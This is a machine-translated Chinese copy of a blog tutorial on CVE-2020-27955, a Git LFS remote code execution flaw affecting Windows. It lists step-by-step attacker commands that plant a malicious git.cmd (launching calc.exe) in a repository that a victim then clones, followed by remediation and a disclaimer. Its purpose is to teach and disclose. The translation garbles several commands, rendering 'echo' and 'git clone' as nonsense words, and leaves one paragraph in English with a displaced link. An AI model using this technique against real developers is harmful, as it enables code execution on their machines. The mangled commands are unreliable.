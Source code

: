 # 针对远程代码执行的 Git LFS 漏洞| CVE-2020–27955

> 原文：<https://infosecwriteups.com/git-lfs-exploit-for-remote-code-execution-cve-2020-27955-e8f4786163c3?source=collection_archive---------1----------------------->

## 针对 Windows 开发人员的红色警报

![](img/aae0e848118a2eead1c80eed3b6a67e6.png)

GIT LFS 上的远程代码执行

2020 年 11 月 5 日，在一个被称为 GIT LFS 的流行 Git 扩展上发现了一个严重的漏洞。成功利用此漏洞会导致在目标机器上远程执行代码。如果您或您的组织使用 git 对您的代码和存储库进行源代码/版本控制，那么您应该考虑到这个问题会对您的资产带来潜在的严重风险。

在这篇文章中，我们将学习如何手动利用 RCE 漏洞，并了解 git 和 git-lfs 的基础，重现问题的步骤及其补救措施。

**简介:**

Git 是 SDLC 期间最常用的源代码版本控制开源工具。它有助于开发人员在任何一组模块或代码库中相互跟踪和协调。

![](img/8ca67c758020910bca7aa54d66e59378.png)

来源:[https://git-scm.com/](https://git-scm.com/)

当存储库的大小超过兆字节时，git 的性能会降低，当存储几兆字节的文件时，GIT 会变得相对较慢。为了克服这个限制，Git 提供了一个名为 GIT LFS 的大文件版本扩展。Git 大文件存储(LFS)是由 GitHub 创建的开源工具，它有助于跟踪 git 存储库中的大文件，而实际的文件内容存储在外部。

![](img/82363d689ce59f66cd28270a960e81a3.png)

来源:[https://git-lfs.github.com/](https://git-lfs.github.com/)

**漏洞:**

在 https://nvd.nist.gov/vuln/detail/CVE-2020-27955 的 Git-LFS (git-lfs)版本<=2.12 on the windows platform only. The payloads get executed as soon as the victim clones the malicious repository and have the vulnerable version of git-lfs running on their system. The attacker must add a malicious file named git.bat/git.cmd/git.vbs/git.exe (any windows executable) in the repo. And the malicious git is executed instead of the original git from the clone path.

![](img/bc6a13c1246b4e146fcb85008d65db41.png)

Source: [上发现了远程代码执行问题](https://nvd.nist.gov/vuln/detail/CVE-2020-27955)

受影响的产品有 Git、GitHub CLI、GitHub Desktop、Visual Studio、GitKraden、SmartGit、Sourcetree 等。

**识别漏洞:**
在 windows 上使用以下命令。如果安装了易受攻击的 git-lfs 工具，则会提示您使用计算器应用程序。

1.mkdir C:\Windows\Temp\poc

2.cd C:\Windows\Temp\poc

3.回声 calc.exe > git . cmd

4.git-lfs 轨道

![](img/4ce8f53b48612cfbf432167968419d3f.png)

测试本地计算机上的漏洞

**在目标系统上获得 RCE**

对于远程代码执行，请遵循以下步骤

作为攻击者:

1.  在 GitHub 上创建一个资源库

![](img/c0b825d97bfdecbf23b1a229690a2c75.png)

创建存储库

2.cd /dev/shm

3.吉特克隆人[https://github.com/attacker/poc.git](https://github.com/attacker/poc.git)。

4.回声 calc.exe > git . cmd

5.git lfs 音轨" *。dat "

6.echo "Junk" > large.dat

7.git add -A

8.git commit -m "POC "

9.git push -u origin master -f

![](img/9cd59e3f26bbdb61b020e42fda3677bf.png)

制造有效载荷

受害者:

1.  https://github.com/attacker/poc.git 的饭桶克隆人。

![](img/69451424059276a0cde8581a08cd0d70.png)

执行恶意 git

我还为此创建了一个视频概念验证。如果你有兴趣，也可以看看视频。

**补救:**

更新并保持 git 版本高于 2.29.2，git-lfs 扩展高于 2.12

[](https://www.youtube.com/@Exploit-Writeup/) [## 漏洞利用报告

### CTF 玩家、安全专家、Bug 赏金猎人、白帽黑客和渗透测试者的博客你好，我是…

www.youtube.com](https://www.youtube.com/@Exploit-Writeup/) 

**免责声明:**

我既没有发现这个严重的漏洞，也没有为 CVE(CVE-2020–27955)居功。我只是在分析了各种博客和公共论坛上的描述后制作了这个视频，以帮助安全爱好者了解这个问题。我对使用此漏洞给组织造成的任何损失不负任何责任&我建议用户在没有组织书面同意的情况下不要利用此漏洞，因为它可能会使组织暴露于其他黑客的攻击之下。
